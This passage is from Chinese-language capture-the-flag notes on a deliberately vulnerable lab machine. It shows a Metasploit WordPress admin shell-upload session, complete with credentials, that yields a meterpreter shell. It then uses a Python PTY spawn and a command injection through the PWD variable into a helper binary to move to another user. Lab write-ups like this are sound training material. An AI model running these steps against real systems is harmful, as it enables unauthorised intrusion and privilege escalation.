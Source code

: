 ![Screenshot_2020-01-16_12-41-48](C:\Users\Eki\Projects\ctf-notes\assets\images\Screenshot_2020-01-16_12-41-48.png)

然后就可以用msf拿到shell了

```shell
root@kali:~# msfdb start
[+] Starting database
root@kali:~# msfconsole -q
msf5 > use exploit/unix/webapp/wp_admin_shell_upload
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts 192.168.31.166
rhosts => 192.168.31.166
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rport 65535
rport => 65535
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set targeturi /phpcms
targeturi => /phpcms
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username notadmin
username => notadmin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Pa$$w0rd13!&
password => Pa$$w0rd13!&
msf5 exploit(unix/webapp/wp_admin_shell_upload) > exploit
meterpreter > shell
```

然后用python脚本获得我们熟悉的交互式shell

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

shell玩了一下

进/home 有两个文件夹 doe和john

doe里有个iteasy 和不能读的local.txt以及似乎没什么敏感信息的noteFromAdmin

itseasy作用是输出当前目录也就类似echo PWD

john里有个user.txt也读不了

怎么办....

既然itseasy能echo

拼接一个$(/bin/sh)试试

好像不会正常回显。。。。

试试/bin/bash

这回可以了

```shell
www-data@literallyvulnerable:$ export PWD=\$\(/bin/bash\)
export PWD=\$\(/bin/bash\)
www-data@literallyvulnerable:$(/bin/bash)$ /home/doe/itseasy
/home/doe/itseasy
sh: 0: getcwd() failed: No such file or directory
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
sh: 0: getcwd() failed: No such file or directory
john@literallyvulnerable:$ 
```
